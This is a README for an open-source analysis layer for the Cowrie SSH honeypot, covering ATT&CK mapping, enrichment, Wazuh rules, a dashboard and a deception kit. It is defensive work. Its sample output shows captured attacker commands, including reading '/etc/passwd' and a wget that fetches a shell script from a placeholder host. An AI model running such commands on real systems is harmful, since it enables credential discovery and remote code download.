


<div align="center">

# Surya Kundal

**Turn raw SSH honeypot traffic into enriched, MITRE ATT&CK-mapped threat intelligence.**

[](https://github.com/TurlaFSB/SuryaKundal/actions/workflows/ci.yml)
[](https://github.com/TurlaFSB/SuryaKundal/actions/workflows/codeql.yml)
[](pyproject.toml)
[](LICENSE)
[](https://attack.mitre.org/)

</div>

Surya Kundal is the analysis layer for a [Cowrie](https://github.com/cowrie/cowrie) SSH honeypot. It reconstructs each attacker visit as a structured session, enriches source IPs and captured files with threat intelligence, maps behaviour to MITRE ATT&CK techniques, raises SIEM alerts through Wazuh, and presents the result in a read-only web dashboard. It also ships a deception kit that makes the honeypot harder to recognise.

<p align="center">
  
  <br><sub>The dashboard overview, rendered from synthetic sample data.</sub>
</p>

## Contents

- [Features](#features)
- [Architecture](#architecture)
- [Quick start](#quick-start)
- [Usage](#usage)
- [Configuration](#configuration)
- [Components](#components)
- [Design and engineering](#design-and-engineering)
- [Limitations](#limitations)
- [Security](#security)
- [Roadmap](#roadmap)
- [Contributing](#contributing)
- [License and acknowledgements](#license-and-acknowledgements)

## Features

| Area | What it does |
|---|---|
| **Session reconstruction** | Groups Cowrie's event stream into one record per visit: credentials, commands, files downloaded and uploaded (SHA-256), port-forwarding attempts, timing, SSH client version, HASSH fingerprint. |
| **Storage** | SQLite with Alembic migrations. Imports are idempotent and failure-isolated; a live watcher follows the log across rotation and restarts. |
| **Enrichment** | Offline geolocation and ASN (MaxMind GeoLite2), AbuseIPDB score and Tor exit check per IP, VirusTotal verdict per file. Each indicator is looked up once, and daily budgets stay within free-tier limits. |
| **ATT&CK mapping** | 70+ reviewable rules map commands, logins, transfers and tunnelling to techniques. Each rule carries positive and negative examples, and every technique ID is validated against the vendored ATT&CK Enterprise v19 catalogue. |
| **SIEM integration** | Wazuh rules generated from the same ATT&CK rules, so the database and the SIEM agree. Includes brute-force, rapid-reconnaissance and honeypot-fingerprinting alerts. |
| **Dashboard** | Attack map, session-depth funnel, fingerprinting-attempt panel, ATT&CK matrix, session drill-down and optional Wazuh alerts. Server-rendered, read-only, strict Content-Security-Policy. |
| **Deception kit** | Hardened Cowrie configuration, a believable Debian filesystem and login policy, and a documented threat model of what still gives a honeypot away. |

## Architecture



Everything from the log parser onward is code in this repository. Cowrie is used unmodified as the capture engine; the deception kit only adds configuration and data files.

## Quick start

**Requirements:** Python 3.11 or newer and a running Cowrie instance (see [`cowrie/README.md`](cowrie/README.md) for the settings used here).

```bash
git clone https://github.com/TurlaFSB/SuryaKundal.git
cd SuryaKundal
python3 -m venv .venv && source .venv/bin/activate
pip install -e ".[dashboard]"

cp .env.example .env && chmod 600 .env     # then fill in what you have; every key is optional
surya-kundal geoip update                  # one-off: fetch the GeoLite2 databases
surya-kundal run                           # capture, ATT&CK mapping and enrichment in one process
```

In a second terminal:

```bash
surya-kundal dashboard                     # http://127.0.0.1:8080
```

## Usage

```bash
surya-kundal run                  # the full pipeline; stop with Ctrl+C
surya-kundal ingest               # import an existing Cowrie log
surya-kundal watch                # follow the log live; resumes where it stopped
surya-kundal map                  # map sessions to ATT&CK techniques
surya-kundal enrich               # geolocation and threat intelligence
surya-kundal list                 # recent sessions with country, abuse score and Tor flag
surya-kundal techniques           # techniques seen, most common first
surya-kundal show <session-id>    # one session: commands with their techniques
surya-kundal dashboard            # read-only web UI
surya-kundal wazuh-rules          # generate the Wazuh rules
```

Example output:

```
$ surya-kundal show 051b
Session 051b29d11c6c from 203.0.113.7 at 2026-10-05 07:11:23 UTC
  login rejected: root/123456
  login accepted: root/apple
  T1078.001 login-default-account (medium): login accepted for 'root'
  $ whoami
      -> T1033 discovery-current-user (high)
  $ cat /etc/passwd
      -> T1087.001 discovery-local-accounts (high)
  $ wget http://example.com/test/sh
      -> T1105 c2-download (high)
```

## Configuration

Settings come from the environment or an untracked `.env` file. Every variable is optional; features whose keys are missing are skipped.

| Variable | Purpose | Default |
|---|---|---|
| `COWRIE_LOG_PATH` | Cowrie JSON log to read | `~/cowrie/var/log/cowrie/cowrie.json` |
| `DATABASE_URL` | SQLAlchemy URL for the database | `sqlite:///data/surya_kundal.db` |
| `ABUSEIPDB_API_KEY` | Enables AbuseIPDB scoring | unset |
| `VIRUSTOTAL_API_KEY` | Enables VirusTotal file verdicts | unset |
| `MAXMIND_ACCOUNT_ID`, `MAXMIND_LICENSE_KEY` | GeoLite2 download credentials | unset |
| `GEOIP_DB_DIR` | GeoLite2 database directory | `data/geoip` |
| `TOR_EXIT_LIST_PATH` | Cached Tor exit list | `data/tor_exit_nodes.txt` |
| `WAZUH_ALERTS_PATH` | Wazuh alert export shown on the dashboard | `data/wazuh_alerts.jsonl` |
| `DASHBOARD_TOKEN` | Dashboard password; required to listen beyond localhost | unset |
| `LOG_LEVEL` | Logging verbosity | `INFO` |

## Components

### Dashboard

A small, server-rendered Flask application served by waitress. It is read-only by construction: the database connection is switched to `query_only`, and the app has no write routes. Everything an attacker typed is HTML-escaped and stripped of control and invisible characters, and the Content-Security-Policy forbids inline script, inline style and external resources. It listens on localhost unless you pass `--host`, and the command refuses a non-local host unless `DASHBOARD_TOKEN` is set (the token is then the HTTP Basic password).

### Wazuh

[`wazuh/`](wazuh/README.md) contains the generated rules, a manager-only Docker Compose file, sample events and `logtest.sh`, which verifies every sample against a real manager. Rules are tagged with ATT&CK techniques and verified on Wazuh 4.14.7. `wazuh/export-alerts.sh` copies the alerts into a file the dashboard can display.

### Deception kit

[`cowrie/`](cowrie/README.md) makes a stock Cowrie present as one consistent Debian 12 host: realistic uptime, `/proc`, package and login history, plausible credentials policy and command output. [`cowrie/FINGERPRINTING.md`](cowrie/FINGERPRINTING.md) is a candid threat model: it lists what still identifies a honeypot to a capable adversary, so the kit raises the cost of detection rather than claiming invisibility.

### ATT&CK mapping

Commands are split into simple commands (respecting quotes and `bash -c` nesting), stripped of wrappers such as `sudo` and absolute paths, and matched against [`rules.toml`](src/surya_kundal/mapping/rules.toml). Session-level evidence maps as well: repeated failed logins to password guessing, accepted default-account logins, file transfers to ingress tool transfer, port forwarding to proxy use. Sessions are re-mapped automatically when their activity or the rules change.

### Data model

| Table | One row per | Key fields |
|---|---|---|
| `sessions` | attacker visit | Cowrie session ID, source IP, start and end, duration, SSH client version, HASSH |
| `logins` | credential attempt | username, password, success flag |
| `commands` | command typed | command text, timestamp |
| `downloads` | file fetched by the attacker | URL, SHA-256 |
| `uploads` | file sent by the attacker (SFTP/SCP) | filename, destination, SHA-256 |
| `tunnel_requests` | port-forwarding attempt | destination and origin address and port |
| `ip_geo` | attacker IP | country, city, coordinates, ASN and organisation |
| `ip_intel` | IP per provider | AbuseIPDB confidence score, Tor exit flag, raw payload |
| `file_intel` | file hash per provider | VirusTotal detections, engine count, threat label |
| `technique_matches` | rule that fired | technique and tactics, rule ID, confidence, evidence, linked command |
| `session_mappings` | mapped session | rule set and ATT&CK version that produced the matches |
| `ingest_offsets` | followed log file | path, inode and saved read position |

### Project layout

```
src/surya_kundal/
    parser/        Cowrie log parsing
    database/      SQLAlchemy models, engine, storage, Alembic migrations
    enrichment/    GeoIP, AbuseIPDB, VirusTotal, Tor list, enrichment pass
    mapping/       ATT&CK catalogue, rules.toml, mapping engine
    dashboard/     Read-only Flask web UI (queries, app, templates, static)
    watcher.py     Live log following
    service.py     The one-process pipeline behind `surya-kundal run`
    wazuh.py       Wazuh rule generator
    config.py      Settings (environment and .env)
    textsafe.py    Safe handling of attacker-controlled text
    cli.py         The surya-kundal command
wazuh/             Generated rules, manager compose file, samples, logtest
cowrie/            Deception kit and threat model
docs/              Images used in this README
tests/             Unit, property-based, migration, dashboard and CLI tests
```

## Design and engineering

- **Additive, idempotent storage.** Sessions are merged, never rewritten. Importing a log twice creates no duplicates, a session saved mid-attack is completed when its closing events arrive, and row IDs stay stable. Unique constraints enforce event identity in the database itself.
- **Versioned schema.** Alembic migrations, a test that fails when a model changes without one, and a clear refusal (not a stack trace) for databases from an incompatible older version.
- **A watcher built for real log files.** It handles rotation, truncation, half-written lines and a missing log, saves its read position, retries failed writes a bounded number of times and shuts down cleanly on `SIGINT` and `SIGTERM`.
- **Attacker input is hostile.** Output is escaped before it reaches a terminal or a browser, and the mapper bounds the size of everything it analyses so crafted input cannot cause pathological regular-expression run time. Property-based tests (Hypothesis) feed arbitrary text, JSON and control characters to the parser, mapper and sanitiser.
- **Free-tier discipline.** Each IP and hash is queried once and cached; budgets are persisted so they survive restarts; a provider that reports its limit stops being called; one failure never blocks the rest.
- **Secrets.** Read only from the environment or an untracked `.env`. HTTP clients never log request URLs, and the MaxMind downloader does not forward credentials across redirects.
- **Time and integrity.** Timezone-aware UTC throughout, foreign keys enforced, WAL mode so a reader can work while the importer writes.
- **Quality gates in CI.** On every push: the test suite on Python 3.11, 3.13 and 3.14 with a 90% coverage floor (currently about 95%), ruff lint and format including security rules, strict mypy, a wheel build exercised from a clean environment, `pip-audit` and CodeQL. Dependabot keeps dependencies current.

## Limitations

- ATT&CK mapping is pattern matching, not a shell interpreter. It does not follow variables or decode payloads, and a rule's confidence describes how specific its pattern is, not how dangerous the command is.
- Wazuh cannot split command lines, so its rules are a coarser view than the database mapping. The database is the complete record.
- Cowrie is an emulation. A capable adversary can still recognise it; see [`cowrie/FINGERPRINTING.md`](cowrie/FINGERPRINTING.md) for the residual tells.
- GeoLite2 locations are approximate, and the project has not yet been run against real internet traffic (see the roadmap).

## Security

Report vulnerabilities privately as described in [`SECURITY.md`](SECURITY.md). Operating notes:

- Run the honeypot on an isolated host, never next to real services.
- Restrict the honeypot host's outbound traffic: Cowrie performs real downloads when an attacker runs `wget`.
- Honeypot logs, captured malware, databases and `.env` files are git-ignored. Treat captured files as live malware.
- Keep the dashboard on localhost, or set `DASHBOARD_TOKEN` and place it behind TLS.

## Roadmap

| Phase | Scope | State |
|---|---|---|
| 0 | Repository, tests, CI | Done |
| 1 | Cowrie capture and log parser | Done |
| 2 | Database layer and live watcher | Done |
| 3 | Threat-intelligence enrichment | Done |
| 4 | MITRE ATT&CK mapping engine | Done |
| 5 | Wazuh rules | Done (verified on Wazuh 4.14.7) |
| 6 | Web dashboard | Done |
| 7 | Docker Compose for the full stack | Planned |
| 8 | Cloud deployment and real-world data collection | Planned |
| 9 | Write-up and demonstration | Planned |

Only free tiers and free offline datasets are used; no paid service is required.

## Contributing

Issues and pull requests are welcome. Before opening a pull request, run the same checks as CI:

```bash
pip install -e ".[dev]"
ruff format --check . && ruff check . && mypy && pytest
```

New ATT&CK rules belong in `rules.toml` with at least one example that must match and one that must not; after editing it, regenerate the Wazuh rules with `surya-kundal wazuh-rules --output wazuh/rules/surya_kundal_cowrie_rules.xml` (CI fails if the committed file is stale).

## License and acknowledgements

Released under the [MIT License](LICENSE).

- [Cowrie](https://github.com/cowrie/cowrie), the honeypot used as the capture engine.
- This product includes GeoLite2 data created by [MaxMind](https://www.maxmind.com). The databases are git-ignored and must not be redistributed.
- MITRE ATT&CK(R) is a registered trademark of The MITRE Corporation. Technique data is from the Enterprise ATT&CK dataset, (c) The MITRE Corporation, reproduced with permission.
- [Wazuh](https://wazuh.com), [AbuseIPDB](https://www.abuseipdb.com) and [VirusTotal](https://www.virustotal.com) provide the SIEM and threat-intelligence integrations.
